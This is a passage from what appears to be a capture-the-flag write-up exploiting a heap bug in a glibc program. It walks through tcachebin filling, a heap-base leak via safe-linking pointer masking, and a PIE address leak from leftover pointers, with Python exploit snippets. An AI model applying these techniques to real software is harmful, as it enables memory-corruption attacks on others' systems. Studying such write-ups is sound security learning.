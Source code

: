 Now we will fill the tcachebin for size 0x80 in the exact same way as above:
`create_cookie()` uses `calloc()` internally. Note that we can't just free
cookies 0, 1, 2, ... because list corruption will be detected, so we free
cookies 1, 3, 5, ...

```python
for i in range(7):
    delete_cookie(2*i + 1)
    create_cookie()
```

We will get a leak of the heap base address by reading inside the first
`free()`d cookie fortune, which is the last one in the appropriate tcachebin. We
will abuse the 'safe linking' pointer masking machenism introduces in glibc
2.32. Its forward pointer is `NULL`. With safe linking, this is stored as `NULL
^ (cookie_addr >> 12) = cookie_addr >> 12`: reading the cookie yields the base
address of the memory page where this chunk resides.

```
                   ┏━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
cookie_addr - 0x10 ┃ ...                       ┃ size | prev_inuse:   0x81 ┃
                   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━╋━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
cookie_addr        ┃ fwd ^ (cookie_addr >> 12) ┃ ...                       ┃
                   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
cookie_addr + 0x10 ┃ ...                                                   ┃
                   ┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
```

```python
def read_heap_leak(idx):
    r.sendline(b'4')
    r.recvuntil(b'Please enter a fortune index\n > ')
    r.sendline(str(idx).encode())
    r.recvuntil(b' ')
    s = r.recv(5) + b'\x00\x00\x00'
    r.recvuntil(b'-----------------------------------------')
    return u64(s) * 4096
heap_base = read_heap_leak(1)
```

We also need a leak of the program load address, because it is PIE and we will
need this leak to know where `.data` is in memory. Remember that each `struct
cookie_fortune` contains a pointer to its own entry in `c`: `free()`d cookie
fortune buffers still contain it. We will allocate a 0x70-sized buffer with
`ask_8ball` where there was a `cookie_fortune` and we will fill the chunk until
offset 0x68. When printing it, we will receive 0x68 bytes (our input) followed
by the address of an entry in `c`.

```python
# Will pick up first available chunk in the tcachebin, i.e. cookie 13
create_ball(b'A' * (0x68 - 17 - 1))
section_data_address = read_binary_leak(13) - 0x170
```

Now we will allocate a `cookie_fortune` from the top chunk, free it and
immediately consolidate that with the top chunk with the `scanf()` trick
explained above.
